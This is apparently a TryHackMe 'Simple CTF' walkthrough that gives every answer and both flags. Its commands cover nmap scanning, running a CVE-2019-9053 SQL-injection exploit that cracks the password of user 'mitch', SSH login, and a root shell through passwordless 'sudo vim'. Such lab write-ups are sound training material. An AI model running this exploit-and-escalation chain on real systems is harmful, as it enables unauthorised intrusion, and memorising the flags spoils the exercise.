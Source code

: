 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?


```
run nmap scan on machine using -sC -sV 
```
```json
nmap -sC -sV -oN nmap/initial 10.10.208.204
```


```
answer: 2
```

# 2. What is running on the higher port?

```
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```json
nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
```
```
I ftp into 10.10.208.204 and found ForMitch.txt and grabbed it to my host using get
```

```
answer: ssh
```

# 3. What's the CVE you're using against the application? 

```
searched for exploits against the web servers host template version (2.2.8) which is usually found at the bootom of websites and found CVE-2019-9053
```

```
answer: CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
answer: SQLi
```

# 5. What's the password?

```
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```json
python3 exploit.py -u http://10.10.208.204/simple --crack -w /your/wordlist.txt 
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
answer: secret
```

# 6. Where can you login with the details obtained?

```
answer: ssh
```
```json
ssh mitch@$ip 
password is secret
```

# 7. What's the user flag?

```
we can run find / -name user* 2>/dev/null to search the computer for the flag if its not located in the home directory otherwise we can cat the file when found. cat /home/mitch/user.txt
```

```
Answer:"G00d j0b, keep up!"
```

# 8. Is there any other user in the home directory? What's its name?

```
if we cd ../ to go back to the parent directory we can see a user folder of someone named "sunbath"
```

```
Answer: sunbath
```

# 9. What can you leverage to spawn a privileged shell?

```
the first thing i do when im attempting to privesc is running sudo -l to see what im able to run as root. in this case we can run /usr/bin/vim as sudo without needing a password. using gtfobins we can see that using vim we can spawn a shell however because this box doesnt need a password for sudo vim we can spawn and leverage this vulnerability.
```

```
Answer: vim
```

# 10. What's the root flag?

```json
running sudo vim -c ':!/bin/sh' will now give us root privilidges on the system 
```
```
due to the user "mitch" being able to run vim as sudo without a password. root flags are usually stored in /root however if not we can always use find to search for the file. In this cate the flag is stored in /root/root.txt so lets cat the file and finish the box!
```

```
Answer: W3ll d0n3. You made it!
```

```json
Congrats u have completed Simple CTF!
```

